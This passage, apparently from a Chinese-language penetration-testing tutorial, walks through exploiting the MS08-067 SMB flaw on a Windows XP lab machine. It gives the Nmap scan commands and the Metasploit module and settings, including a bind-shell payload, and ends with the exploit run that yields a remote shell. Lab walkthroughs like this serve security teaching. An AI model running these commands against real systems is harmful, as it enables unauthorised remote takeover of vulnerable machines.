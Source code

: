 - 受害机：Win XP - 192.168.44.135  
  
第一步，利用Nmap工具扫描端口及确认该漏洞是否存在。  
```
nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open
```  
  
nmap漏扫脚本目录为“/usr/share/nmap/script/”，如下图所示，扫描结果为VULNERABLE，表示MS0808-067漏洞存在且可以利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mbIO9nG8zx8uucNbvc2Me4nlAEQts1ZLd354V48t7BRduzbDxpUfFpQ/640?wx_fmt=png&from=appmsg "")  
  
或者使用 “nmap -sV -Pn 192.168.44.135” 查看目标主机开放的端口。目标机开放了135、139、445、1025、5000端口，且目标机系统为Windows XP。作为黑客，一看到XP或2003系统的445端口开放，我们就能想到轰动一时的MS08-067。  
```
nmap  -sV -Pn 192.168.44.135
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mRibh1sFO1LvuFo8pVHJXmy2xDtlxqTcXoiaXDPyEEuklWO5DibvvQAYwA/640?wx_fmt=png&from=appmsg "")  
  
第二步，进入Msfconsole并利用search语句查找漏洞利用模块。终端内输入msfconsole打开metasploite命令行客户端，使用search命令查找ms08-067的漏洞利用模块。  
```
msfconsole
search ms08-067
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8m3iavVSzicXDlZolDMvxxZkDzhIq0AAcTTplclCp5OCQJiap8BqlzOCp5g/640?wx_fmt=png&from=appmsg "")  
  
第三步，进入漏洞模块，并查看相关的使用说明。使用use命令选择我们要使用的利用模块。target设置为系统默认是自动定位，如果需要精确定位，可以show targets查看所有，然后进行选择。  
```
use exploit/windows/smb/ms08_067_netapi
show options
show targets
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mvypX8lQAEfuicHlfrFd6E3svjcCcwiaKjibsQ6RD7BciaLrYIvKGws8f2g/640?wx_fmt=png&from=appmsg "")  
  
第四步，设置攻击机、受害机信息。  
```
# 目标机ip
set RHOST 192.168.44.135
# 端口号
set RPORT 445
# 设置payload
set payload generic/shell_bind_tcp
# 攻击机ip
set LHOST 192.168.44.136
# 设置自动类型
set target 0
# 显示配置信息
show options
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mcXT8e589dZGW3BQmFnFnPF9eXjVQ7N8xtnCwue7pwQpNJ3olhpz2VA/640?wx_fmt=png&from=appmsg "")  
  
第五步，运行exploit反弹shell。此时我们成功获取了Windows XP系统的Shell，我们调用“ipconfig”查看的IP地址也是目标的“192.168.44.135”。  
```
exploit
session 1
ipconfig
pwd
```  
  